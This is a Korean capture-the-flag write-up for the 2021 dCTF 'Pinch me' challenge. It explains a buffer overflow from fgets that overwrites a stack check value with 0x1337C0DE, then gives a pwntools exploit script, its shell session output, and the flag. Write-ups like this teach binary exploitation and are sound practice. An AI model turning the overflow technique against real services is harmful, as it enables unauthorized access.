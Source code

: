 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-19-21-18.png)

첨부파일

[pinch_me.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20dCTF/Pinch%20me/file/pinch_me.zip)


# **Write-Up**

vuln함수로 들어오면 fget함수에서 overflow가 터지고 rbp+var_8은 0x1337C0DE가 되어야 쉘을 획득할 수 있다.

![](images/2022-05-18-19-21-48.png)

다음과 같이 exploit 코드로 flag를 획득할 수 있다.

```py
from pwn import *
context(arch='amd64')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

payload = b''
payload += b'\x00'*(0x20 - 0x08)
payload += p32(0x1337C0DE)
payload += p32(0x1234567)

p.recvuntil('dreaming?')
p.sendline(payload)
p.interactive()

[Output]
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on port 7480: Done
[*] Loaded 14 cached gadgets for './pinch_me'
[*] Switching to interactive mode

$ ls -al
total 40
drwxr-xr-x 1 root  root   4096 May 14 01:38 .
drwxr-xr-x 1 root  root   4096 May 14 01:39 ..
-rw-r--r-- 1 root  root     37 May 14 01:37 flag.txt
-rwxr-xr-x 1 pilot pilot 16632 May 14 01:37 pinch_me
-rw-r--r-- 1 root  root    204 May 14 01:37 startService.sh
$ cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}

################ startService.sh ################
#!/bin/bash
chown pilot:pilot /app/pinch_me
chmod +x /app/pinch_me
while true; do
    su pilot -c 'timeout -k 30s 1d socat TCP-LISTEN:7480,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./pinch_me"'
done
################################################
```


# **FLAG**

**dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}**